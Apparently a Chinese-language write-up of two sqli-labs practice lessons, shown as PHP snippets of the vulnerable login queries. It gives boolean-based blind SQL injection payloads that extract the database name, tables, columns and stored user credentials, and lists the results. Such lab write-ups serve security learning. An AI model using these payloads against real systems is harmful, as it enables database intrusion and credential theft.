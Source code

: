 

##### 14. Double Injection - Single quotes - String - with twist

和13题开始类似，只不过这里就成了当初的预计，只有成功和失败的图片返回，不会有有用的回显。那只能用`时间注入`.

鹅，搞错了，原来`"`能导致你传进去的`'`被括起来，并且你用多个`"`也不会进行报错，你需要先用`"`对之前的进行封闭，然后再输入一个`'`才会造成报错.

```php
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
```

所以注入语句，和上一题的区别只是双引号`"`



##### 15. Blind - Boolean/time Based - Single quotes

这道题，就成了上面的预想，就是无论输入什么，就只有成功和失败的图片的返回，连错误的返回都没有。那就只能用时间注入。

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

鹅，原来还没到，两张图的名字不是一样的。还能继续用布尔，只不过需要用`or`来进行条件匹配，可以构造`uname`和`passwd`，用`or`在两个语句里面拼接，造成`passwd`的条件永真，而`uname`的条件则可以用来判断内容是否为真.

```sql
// 爆破库名    这里的拼接中#号能把后面的'给注释掉？
xx'uname=' or substr(database(),1,1)='s'#
xx'passwd=' or 1=1#
// 结果: security
// 爆破表名
xx'uname=' or substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='s'#
// 结果：emails,referers,uagents,users
// 爆破user表列名
xx'uname=' or substr((select group_concat(column_name) from information_schema.columns where table_name='users'),1,1)='s'#
// 结果:id,username,password
// 爆破user表数据
xx'uname=' or substr((select group_concat(username) from security.users),1,1)='s'#
xx'uname=' or substr((select group_concat(password) from security.users),1,1)='s'#
/* 
结果： name： 
Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4'
*/
/*
结果： password：
Dumb,I-kill-you,p@ssword,crappyy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
*/
```

